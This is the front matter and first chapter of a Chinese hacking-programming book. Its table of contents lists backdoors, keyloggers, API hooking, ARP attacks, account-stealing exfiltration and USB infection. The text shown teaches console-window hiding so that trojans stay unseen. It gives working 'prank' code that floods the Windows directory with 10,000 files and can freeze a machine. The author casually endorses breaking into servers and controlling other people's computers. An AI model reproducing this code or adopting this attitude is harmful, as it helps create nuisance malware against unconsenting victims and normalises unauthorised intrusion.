# Hack 编程实例精讲 II

## 精通黑客编程

## 作者简介

边立忠（网名：认真的雪），男，1987 年出生于江南小镇临平，现在在古镇绍兴求学，是绍兴文理学院元培学院计算机专业大一新生。

2003 年开始接触网络安全，勤奋有余，天资不足。但为人专注、执着，酷爱黑客编程和网络渗透，有三年编程经验。曾经编写过多款木马和黑客程序，高考之后在国内安全杂志发表过多篇黑客编程相关文章。现在主要在学习和研究系统内核编程和 Rootkit 编写技术。


- 出品人：非安全
- 本书作者：边立忠
- 编辑：Python、LCX、Lateye、空气、小S、浪迹天涯、李文杰、眼镜猴、星陨石碎
- 特约编辑：风飘雨、小迷、XApache、剑心、寂寞刺猬、张宇、LinX、B4N、青蛙王子
- 平面规划：柳絮
- 网站：www.pohack.cn
- 网站编辑：空气
- 版权声明：图文版权所有，未经同意，不得转载。
- 投稿信箱：pohack@21cn.com
- 邮购查询：hope_wym@sina.com
- 光盘信箱：CD@pohack.cn

## 阅读指南

继谷夕的《Hack 编程实例精讲》之后，在《非安全》编辑部的大力支持下，这次由我来带领大家继续探索黑客编程这个神秘的世界。

在 QQ 上经常会有人问我这样的问题：他对某种操作或者后门的启动方式等有一定的想法，不知道是否可以通过编程来实现他的想法。其实编程就是把自己的想法转换成代码的过程，而一个人编程能力的大小，很大一部分取决于这种“转换”能力的强弱，通俗地说就是如何用最简单的方法、最优化的代码把自己的想法表达出来。

本书并非只是为了代码而编程，主要体现如何通过编程来解决具体问题，实现具体功能，使大家学会如何通过代码来实现自己的想法。书中每个实例基本包含了提出想法、确定编程思路、解决此思路中的具体问题，最后把想法转换成代码等过程。通过引导性的语言，培养读者利用编程解决具体问题的能力。

本书在内容安排上遵循循序渐进的原则，内容由浅及深，环环相扣，在阅读后面章节中若遇到不懂的知识，可以翻阅前面的章节进行查阅。为了照顾刚入门的编程新手，本书的第一章介绍了 Windows 系统编程的基础，能让新手以最快的速度走入系统编程的大门，并且具有阅读后续章节的能力。

本书的技术覆盖面较广，囊括了较全的后门编写技术、密码截获技术、数据包截获和构造技术、API Hook 技术等。另外，应广大网友的需求，最后一章还介绍了一些时下流行的黑客编程技术，并为了照顾老鸟，本书在技术的深度上较《Hack 编程实例精讲》也有一定的提高。

本书为了避免出现大段代码而影响读者的阅读兴趣，代码一般随文章思路的推进而分段给出，所以为了使阅读时思路更流畅，笔者建议大家结合着光盘中的源代码阅读本书。

最后，希望广大读者能在书中找到你想要的东西。

若对本书有什么宝贵的意见或建议，可以发送邮件到笔者的邮箱或在笔者的 Blog 上留言。

- 邮箱地址：careful.snow@126.com
- Blog 地址：http://www.snow1987.cn/

## CONTENTS

## 目录


## 第一章 黑客编程基础知识

- **1.1** 黑客编程概述 …… 10
  - 1.1.1 黑客与编程 …… 10
  - 1.1.2 编程语言简介 …… 11
- **1.2** VC 编程基础 …… 12
  - 1.2.1 建立第一个无窗口工程 …… 12
  - 1.2.2 API 编程基础 …… 13
  - 1.2.3 用 VC 写一个恶作剧程序 …… 14
- **1.3** Windows 系统编程基础 …… 15
  - 1.3.1 网络通信编程基础 …… 15
    - 1.3.1.1 网络协议讲解 …… 16
      - 1.3.1.1.1 TCP/IP 协议的组成 …… 16
      - 1.3.1.1.2 基于 TCP/IP 协议的数据传输 …… 17
    - 1.3.1.2 Winsock 编程基础 …… 18
  - 1.3.2 文件操作编程 …… 27
    - 1.3.2.1 文件读写编程 …… 27
    - 1.3.2.2 文件的复制、移动和删除 …… 30
  - 1.3.3 注册表编程基础 …… 31
  - 1.3.4 进程和线程编程 …… 35
    - 1.3.4.1 进程编程 …… 35
    - 1.3.4.2 线程编程 …… 38
  - 1.3.5 动态链接库编程 …… 42

## 第二章 蓝本后门的编写

- **2.1** 后门概述 …… 48
  - 2.1.1 后门的发展历史 …… 48
- **2.2** 简单 cmdshell 的实现 …… 49
  - 2.2.1 管道通信技术 …… 50
  - 2.2.2 正向连接后门编程 …… 51
    - 2.2.2.1 双管道后门 …… 51
    - 2.2.2.2 单管道后门 …… 56
    - 2.2.2.3 零管道后门 …… 57
  - 2.2.3 反向连接后门 …… 58
  - 2.2.4 补充（实现多连接）…… 59
- 2.3 开启远程终端的实现 …… 60
- 2.4 文件查找 …… 63
- 2.5 重启、关机、注销 …… 68
- 2.6 实现 HTTP 下载文件 …… 71
- 2.7 实现 cmdshell 和各功能的切换 …… 73
- 2.8 自启动功能的实现 …… 76
  - 2.8.1 注册表启动 …… 76
  - 2.8.2 ActiveX 启动 …… 78
  - 2.8.3 系统服务启动 …… 80
  - 2.8.4 SVCHOST.EXE 加载启动 …… 90

## 第三章 高级系统后门编程实现

- 3.1 远程线程技术 …… 96
  - 3.1.1 初步的远程线程注入技术 …… 96
  - 3.1.2 编写远程线程注入后门 …… 101
  - 3.1.3 远程线程技术的发展 …… 103
- 3.2 端口复用后门 …… 106
  - 3.2.1 后门思路 …… 107
  - 3.2.2 具体编程实现 …… 107

## 第四章 密码截获技术

- 4.1 基于钩子的密码截获技术 …… 112
- 4.2 非钩子密码截获技术 …… 124

## 第五章 API Hook 编程实现

- 5.1 Hook API 的实现 …… 130
  - 5.1.1 API Hook 的原理 …… 130
    - 5.1.1.1 PE 文件的导入表 …… 131
    - 5.1.1.2 定位导入地址表（IAT）…… 135
  - 5.1.2 实现简单的 API Hook …… 138
- 5.2 用 API Hook 编写一个进程保护器 …… 143

## 第六章 数据包嗅探编程

- 6.1 原始套接字基础 …… 148
- 6.2 利用 ICMP 原始套接字实现 ping 程序 …… 149
- 6.3 基于原始套接字的嗅探技术 …… 152
- 6.4 利用 Packet32 实现 ARP 攻击 …… 158

## 第七章 黑客程序的配置和隐藏信息的保护

- 7.1 文件生成技术 …… 168
  - 7.1.1 资源法生成文件 …… 168
  - 7.1.2 附加文件法生成文件 …… 171
- 7.2 黑客程序的配置 …… 175
  - 7.2.1 数据替换法 …… 175
  - 7.2.2 附加信息法 …… 180
- 7.3 配置信息的保护 …… 182
  - 7.3.1 配置信息的文件保护 …… 183
  - 7.3.2 配置信息的内存保护 …… 184

## 第八章 流行的黑客编程技术

- 8.1 实现盗号程序的 HTTP 发信 …… 188
  - 8.1.1 HTTP 请求数据包的构造 …… 188
  - 8.1.2 实现 HTTP 发送用户信息 …… 191
- 8.2 SDK 编写 SQL 注入工具 …… 193
- 8.3 编写 U 盘感染程序 …… 199
- 附录 …… 204
- 后序 …… 207
- 非安全·黑客手册全国代理商电话 …… 208

## 光盘目录

### 代码集合

- 【第一章】
  - API 编程基础
  - 用 VC 写一个恶作剧程序
  - Windows 系统编程基础
  - Export
  - Import
  - Process
  - StartPage
  - tcpclient
  - tcpserver
  - Thread
  - writefile
- 【第二章】
  - cmdshell 和各功能的切换
  - 实现 HTTP 下载
  - 开 3389
  - 文件搜索
  - 重启、关机、注销
  - 简单 cmdshell 的实现
  - NoPipeDoor1
  - NoPipeDoor2
  - OnePipeDoor1
  - OnePipeDoor2
  - TwoPipeDoor1
  - TwoPipeDoor2
  - 多连接 NoPipeDoor
  - 自启动功能的实现
  - active
  - svchost.exe 启动
  - 系统服务启动
  - 注册表启动
- 【第三章】
  - BackDoorDll
  - fu
  - InjectDll
  - InjectNoDll
- 【第四章】
  - Keyboard
  - SetKeyHook
  - Marke
  - NoHook
  - PostMessage

### SetWindowLong

- 【第五章】
  - ApiHook
  - SetHook
  - ImportFun
  - InjectSimpleHook
  - SimpleHook
- 【第六章】
  - GetFtpPass
  - myarp
  - ping
- 【第七章】
  - 资源法
  - 附加文件法
  - 数据替换法
  - 附加信息法
  - 配置信息的文件保护
  - 配置信息的内存保护
- 【第八章】
  - PostMessage
  - Uinject
  - HttpPacket
  - sqinject

### 娱乐欣赏

《Live at Oeiras Alive 2007 演唱会》精选片段欣赏

Linkin Park 组合于 2007 年的夏天在葡萄牙的 Oeiras 举行的一场全球音乐会，激情演绎多首流行金曲，包括真人版电影《变形金刚》片尾曲 *What I've Done* 及许多百听不厌的畅销金曲。场面热情火爆，当预定的最后一曲 *What I've Done* 结束后，歌迷高呼意犹未尽，最终返场加演。喜欢 Linkin Park 的 FANS 绝对不会错过一场如此的演唱会。

### 【部分曲目】

- 开场 HIGH = One Step Closer
- Somewhere I Belong
- No More Sorrow
- Points of Authority / Given Up / Don’t Stay
- Leave Out All The Rest
- Breaking The Habit
- What I've Done（真人版电影《变形金刚》片尾曲）
- 返场加演片段 END

### 【乐队简介】

英文队名：Linkin Park（曾用 Hybrid Theory）

中文翻译：林肯公园（联合公园）

组队国籍：美国

组建时间：1996

乐队风格：Alternative Metal（另类金属）/ Post-Grunge（后车库）/ Nu Metal（New Metal，新金属）/ Rap Metal（说唱金属）

### 【乐队成员】

- 主唱：Chester Bennington、Mike Shinoda
- 鼓手：Rob Bourdon
- 吉他手：Brad Delson
- DJ / Sample：Joseph Hahn
- 贝斯：Phoenix

### 【特别提醒】

播放本页音乐前请先把其他正在播放的影音停止或关闭，不然会影响最佳欣赏效果，谢谢！

另外，如果遇到无法播放视频的问题，我们建议安装暴风影音后再进行欣赏。如果在光盘中播放太慢，可以直接进入目录将相关视频文件拷贝到硬盘中再使用播放软件欣赏。

### 【全屏欣赏】

播放视频时，在播放界面按鼠标右键，在弹出的菜单中依次选择“缩放”→“全屏”。


# Hack 编程实例精讲 II：精通黑客编程

## Chapter



## 黑客基础编程知识

- 黑客编程概述
- VC 编程基础
- Windows 系统编程基础

## 第一章 黑客基础编程知识

### 1.1 黑客编程概述

- 前置知识：无
- 难度：简单
- 编译环境：无
- 测试环境：无

#### 1.1.1 黑客与编程

“黑客”一词来源于英语动词 hack，原意为“劈，砍”，也就意味着“劈出，开辟”。“hack”这个字起源于 50 年代初期麻省理工学院（MIT）学生的流行用语。1990 年，MIT 博物馆发行的刊物中说，50 年代 MIT 学生所说的“hack”就是指非恶意并且又有创意的行为。50 年代之后，“hack”这个词有了更尖锐、更叛逆的意思。他们乐此不疲地寻找着漏洞，且善意地提醒并修补漏洞。

但随着社会的发展，在各种利益的驱使下，黑客商业化已将成为必然，纯粹意义上的黑客已经非常少见了，毕竟黑客也是要吃饭的，但是黑客专注、创造的精神却一直都存在着。

美国《发现》杂志，给出了黑客的五种定义：

1. 研究计算机程序并以此增长自身技巧的人；
2. 对编程有无穷兴趣和热忱的人；
3. 能快速编程的人；
4. 擅长某专门程序的专家，如 UNIX 系统黑客；
5. 恶意闯入他人电脑或系统意图盗取敏感信息的人。对于这类人最合适的用词是“CRACKER”。

小编：现在该词汇已经分配给从事破解的人群（或者叫逆向工程爱好者更专业一些），不再作为“Hacker”的替罪羊，黑客和破解早已分化为两大阵营，而非“HACKER”。

从上面的定义我们可以看到，其中有三条提到了编程，可见编程和黑客是脱不了关系的，要成为真正的黑客必须学会编程。曾经也有一个牛人说过，不会编程的黑客永远只是菜鸟。

在从刚刚接触黑客技术到慢慢入门的过程中很多人都会发现，其实不会编程也可以轻易地得到一个服务器的权限，控制一个漂亮 MM 的电脑。在这之后的很长一段时间里，就会利用自己已会的技术不断地入侵服务器，控制肉鸡，同时慢慢地学习和进步。但是当这种进步积累到了一定程度的时候，就会渐渐地发现学习变成了一件非常痛苦的事情。因为在黑客技术中很多东西都涉及到了编程，而自己却不会编程，所以只能望而却步。就算努力去看了，也只是看天书，不会有什么收获。这个时候才会意识到编程的重要，再回过头去学编程。其实这个过程大部分黑客技术学习者都会经历，就算是牛人也不例外。

初学者往往在这个过程中却浪费了大量精力在过多的入侵上，因为在这个过程中进步是非常慢的，这是一条很多前辈都走过的弯路。从中我们已足以看出，编程对于黑客技术学习的重要，早学编程可以少走很多弯路。

再说了，你入侵时用的工具、控制服务器用的后门、控制 MM 电脑用的木马，哪个不是牛人们用编程来实现的？真正的黑客可以在入侵中通过编程来解决遇到的问题，或者编写需要实现特定功能的工具，而不是一味地用别人的工具。当然这里并不是反对用网上的共享工具，假如每个工具都自己写，那不累死啊！但是编程是黑客必须掌握的一门技术。下面列出了和编程相关的技术，如图 1 所示。可见想要掌握高级黑客技术，编程是基础也是关键。从下一节开始我们将进入神秘的黑客编程世界。



## 1.2 编程语言简介

要学习黑客编程，至少要先学会一种编程语言。

> **编程加工厂**

### 编程语言的分类

所谓的编程语言一般分为五种：

1. 脚本语言：如 ASP、PHP、JSP 等。  
2. 解释型语言：如 VB、Perl、Python 等。  
3. 混合型语言：如 Java、C# 等。  
4. 编译型语言：如 C/C++、Delphi 等。  
5. 汇编语言：如 8086 汇编、Win32 汇编等。  

当然，也可分为高级语言（C/C++、Delphi、Java 等）和低级语言（汇编），我们这里所说的编程语言是指编译型语言或汇编语言。

在 Windows 时代，大部分黑软都是基于 Windows 平台的，在 Windows 平台的编程语言有 Java、VC++、Delphi、VB 等。下面介绍下我个人对几种语言的看法：

首先是 VB，它作为一种解释型的语言，在编程方面以易学著称。但是由于是解释型的语言，所以它对系统内核和底层的操作都非常繁琐，如果学习黑客编程的话，那是万万不可选的。个人觉得它对于编写 SQL 注入工具还是不错的。

而对 Delphi 来说，我们可以切身体会到，这两年越来越多的黑客工具、木马都是用它写的，因为这门语言比较容易上手，学起来相对简单，对系统内核的操作也不错。但是它写的程序体积相对比较大，执行效率不高。

而 VC++，个人觉得它是最适合写黑客工具、木马和后门的。VC++ 的代码执行效率高，而且系统兼容性好（Windows 系统是 C 语言写的，再加上 VC 是微软开发的，兼容性能不好吗？），对系统底层的操作相当强大，而且它写的程序体积小。

再来说说汇编！汇编作为一种低级语言可能已经被很多人抛弃了，因为汇编写程序相当繁琐，但是汇编的强大是不容置疑的！假如你要成为真正的高手，那么建议学完一门高级语言后，还需要学习汇编（本人正在汇编学习中）。

综合来说，VC++ 无论从哪方面比较都是非常适合学习的，那么本书就以 VC++6.0 为平台，在后续章节为大家讲解种种黑客编程技术。

### 1.2 VC 编程基础

- 前置知识：Windows 基本操作、VC++6.0 操作基础
- 难度：简单
- 编译环境：VC6.0
- 测试环境：Windows XP

### 1.2.1 建立第一个无窗口工程

大家平时用的木马、后门为了隐藏自己，总是没有窗口的，不会像应用程序那样会跳出一个很明显的窗口。下面我们也来生成一个无窗口的程序。首先打开 VC++6.0，新建工程，如图 2 所示。



图2

选择“Win32 Console Application”，填好工程名（Project name），选好目录（Location），点“OK”，如图 3 所示。

选择“A simple application”，点击“Finish”，这样就建立了一个工程了，但是编译运行后会发现有一个黑乎乎的控制台窗口。对于 nc 之类的程序当然无所谓了，但是对于木马、后门这样就不够隐蔽。我们只需在头文件中（默认情况下是 StdAfx.h）加入如下代码，这样就不会有控制台窗口了。

```cpp
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"")
```

当然还有一种方法，建立工程的时候选择“Win32 Application”，之后也是选择“A simple application”，建立的工程也是无窗口的。



图 3。

## 2.2 API 编程基础

> **编程小贴士**

**什么 API？**  
所谓 API 就是 Application Programming Interface 的缩写，其实就是操作系统留给应用程序的一个调用接口，应用程序通过调用操作系统的 API 而使操作系统去执行应用程序的命令。

其实早在 DOS 时代就有 API 的概念，只不过那个时候的 API 是以中断调用的形式（INT 21h）提供的，在 DOS 下运行的应用程序都直接或间接地通过中断调用来使用操作系统功能。而在 Windows 中，系统 API 是以函数调用的方式提供的；API 函数都是包含在系统 DLL 中的导出函数，DLL 文件不能直接执行；它们通常由 exe 在执行时装入，其内含有一些资源以及可执行代码等，系统 DLL 中就含有了 API 函数的执行代码。

直接调用 API 编程又称之为 SDK 编程。SDK 即 software develop kit（软件开发工具包）的缩写，它包含了进行 Windows 软件开发的文档和 API 函数的导入库、头文件。早期 SDK 是一个单独发放的包，现在在 Visual C++ 和其他一些开发环境中已经包含了它。如果你已经安装了 VC++，那么就可以开始编写 Windows 程序了。

API 和 SDK 是开发 Windows 应用程序所必需的东西，所以其它编程框架和类库都是建立在它们之上的。像 MFC 类库就是对 API 的封装。所以 SDK 编程相对比较灵活，当然也是有一定难度的。SDK 还有一个优点就是其编写的程序体积会比用类库的小得多。

那具体怎么调用 DLL 中的 API 函数呢？在 SDK 中 API 函数的声明是包含在头文件和导入库中的，所以在程序中我们必须要有 API 函数的头文件（.H）和其导入库（.LIB），可以分别用 `#include` 和 `#pragma comment` 语句加载到程序中。

1. 包含要调用函数的头文件，可以在文件开头使用 `#include <Windows.h>`，这里的 Windows.h 就是我们要包含的头文件。  
2. 连接到指定的导入库文件（.LIB）。一般情况下 VC 默认已经连接了常用的导入库文件，所以这一步不用我们完成。在没有默认连接的情况下，我们可以在文件开头使用 `#pragma comment` 进行连接：`#pragma comment(lib, "ws2_32")`，其中 `ws2_32` 就是导入库的名称。  
3. 调用要使用的 API 函数。  

下面来看一个弹出对话框的小程序（源码在光盘“第一章\API 编程基础\MessageBox”下）：

```cpp
// VC 自动添加的头文件
#include "stdafx.h"
// 包含 MessageBox 函数声明的头文件
#include <Windows.h>

int main(int argc, char* argv[])
{
    // 调用 MessageBox 这个 API 函数
    MessageBox(NULL, "hello,hacker program", "Test", 0);
    return 0;
}
```

执行效果如图 4 所示。



这里的 MessageBox 是 API 函数，它用于显示一个指定风格的对话框，其声明包含在 Windows.h 中。

个人认为对于刚学会 C/C++，想用 VC++ 来写程序的朋友，建议大家不要直接学 MFC，要从 SDK 编程开始学起。虽然 SDK 编程比较难，但是由于是直接对 API 进行调用，所以会让自己对系统有更多的了解，编程也会变得更灵活。个人认为 MFC 是给高手用的东西。

### 1.2.3 用 VC 写一个恶作剧程序

首先要说明下，这节的代码可能你会看不懂，因为这些 API 函数没讲过，不过这节的目的并不是为了让大家学会下面的代码，而是让大家对 SDK 编程有一个初步的感知，感受下它的强大，感受下黑客编程的神奇。

这个恶作剧程序要实现的功能非常简单，在硬盘下建立 n 多个文件，让人删到头大（本人测试的结果是，假如电脑比较慢，那么一打开被填满文件的文件夹就会死机）。

用 1.2.1 中的方法建立工程，代码如下（源码在光盘“第一章\用 VC 写一个恶作剧程序\ezj”下）：

```cpp
#include <Windows.h>
#include <string>
int main(int argc, char* argv[])
{
    char Path[255];
    char FileName[255];
    char Data[512] = "...";

    for (int i = 0; i < 10000; i++) // 创建 10000 个文件，i 的值可以自己改呀
    {
        // 得到 Windows 目录
        GetWindowsDirectory(Path, sizeof(Path));
        // 用 i 的值加 .txt 来给文件命名
        wsprintf(FileName, "\\%d.txt", i);
        // 给 Path 赋以完整路径
        ...
        strcat(Path, FileName);
        HANDLE hFile;

        // 创建文件
        hFile = CreateFile(Path, GENERIC_WRITE, 0, NULL,
            CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
        if (hFile == INVALID_HANDLE_VALUE)
        {
            continue;
        }

        DWORD dwWrite;
        // 把 Data 中的数据写入文件
        WriteFile(hFile, &Data, strlen(Data), &dwWrite, NULL);
        // 关闭文件句柄
        CloseHandle(hFile);
        memset(Path, 0x00, 255);
        memset(FileName, 0x00, 255);
    }

    return 0;
}
```

执行效果如图 5 所示。



图 5

### 1.3 Windows 系统编程基础

- 前置知识：C / C++ 基础
- 难度：中等
- 编译环境：VC6.0
